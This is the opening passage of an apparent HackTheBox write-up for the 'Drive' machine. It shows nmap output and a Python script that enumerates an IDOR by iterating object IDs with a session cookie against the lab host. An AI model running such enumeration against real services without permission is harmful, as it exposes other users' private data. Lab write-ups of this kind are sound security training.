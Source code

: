 ```yaml
---
title: "Drive Write-Up - HackTheBox"
description: "Hard seasonal machine"
pubDatetime: 2023-11-12
tags: ["difícil", "htb", "season3", "idor", "cracking", "gitea", "sql-injection"]
---
```


## Table of contents

## Enumeration

~~~bash
❯ nmap -p- -sCV -oN target 10.10.11.235
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 20:12 CEST
...
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
...
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
...
3000/tcp filtered ppp
~~~

Ports 22 and 80 open, port 3000 filtered.

## Web service

There is an IDOR in the **reserve** funcionality

![](@assets/HackTheBox/Drive/reserve.png)

I found various files with the following python script:

~~~python
import requests, signal, sys, time
from pwn import *

def handler(sig, frame):
    print("\n[!] Exiting program...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, handler)

p1 = log.progress("Post number")

http_proxy = "http://127.0.0.1:8080"
proxies = {"http": http_proxy}
cookies = {'sessionid': '78r579zrou9jhsniiynte4vzcdrx1842'}

def main():
    for n in range(1,2000):
        url = f"http://drive.htb/{n}/block/"
        r = requests.get(url=url, proxies=proxies, cookies=cookies)
        p1.status(n)
        if len(r.text) != 179:
            print(f"[+] IDOR: {n}")

if __name__ == "__main__":
    main()
~~~
